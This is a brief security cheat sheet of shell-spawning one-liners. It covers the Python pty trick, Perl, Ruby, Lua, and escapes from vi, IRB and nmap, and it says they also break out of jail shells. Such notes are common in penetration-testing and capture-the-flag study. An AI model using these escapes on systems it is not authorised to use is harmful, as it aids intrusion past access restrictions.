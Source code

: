 **Shell Spawning**


ALSO: /usr/bin/script -qc /bin/bash /dev/null
-   python -c 'import pty; pty.spawn("/bin/sh")'
    
-   echo os.system('/bin/bash')
    
-   /bin/sh -i
    
-   perl —e 'exec "/bin/sh";'
    
-   perl: exec "/bin/sh";
    
-   ruby: exec "/bin/sh"
    
-   lua: os.execute('/bin/sh')
    
-   (From within IRB)
    
    exec "/bin/sh"
    
-   (From within vi)
    
    :!bash
    
-   (From within vi)
    
    :set shell=/bin/bash:shell
    
-   (From within nmap)
    
    !sh
    

Many of these will also allow you to escape jail shells. The top 3 would be my most successful in general for spawning from the command line.